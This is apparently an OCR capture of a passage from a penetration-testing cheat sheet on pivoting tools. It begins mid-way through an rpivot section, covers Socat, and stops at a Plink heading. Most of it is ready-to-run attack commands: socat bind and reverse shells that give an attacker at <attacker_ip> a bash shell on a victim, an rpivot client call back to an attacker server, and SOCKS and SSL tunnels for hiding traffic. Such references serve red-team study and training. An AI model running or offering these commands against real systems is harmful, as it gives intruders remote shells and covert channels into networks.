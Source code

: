 - **Victim:**

```bash

python client.py --server-ip <attacker_ip> --server-port 9999

```

> Rpivot GitHub
> 

---

## **Socat**

Versatile data relay tool.

- **Bind Shell:**

```bash

victim> socat TCP-LISTEN:1337,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane
attacker> socat FILE:`tty`,raw,echo=0 TCP:<victim_ip>:1337

```

- **Reverse Shell:**

```bash

attacker> socat TCP-LISTEN:1337,reuseaddr FILE:`tty`,raw,echo=0
victim> socat TCP:<attacker_ip>:1337 EXEC:bash,pty,stderr,setsid,sigint,sane

```

- **Port Forwarding via SOCKS:**

```bash

socat TCP-LISTEN:<local_port>,fork SOCKS4A:127.0.0.1:<target_host>:<target_port>,socksport=<proxy_port>

```

- **SSL Socat Tunnel:**

```bash

attacker> socat OPENSSL-LISTEN:443,cert=server.pem,cafile=client.crt,reuseaddr,fork,verify=1 TCP:127.0.0.1:3333
victim> socat TCP-LISTEN:2222 OPENSSL,verify=1,cert=client.pem,cafile=server.crt

```

---

## **Plink (Windows)**
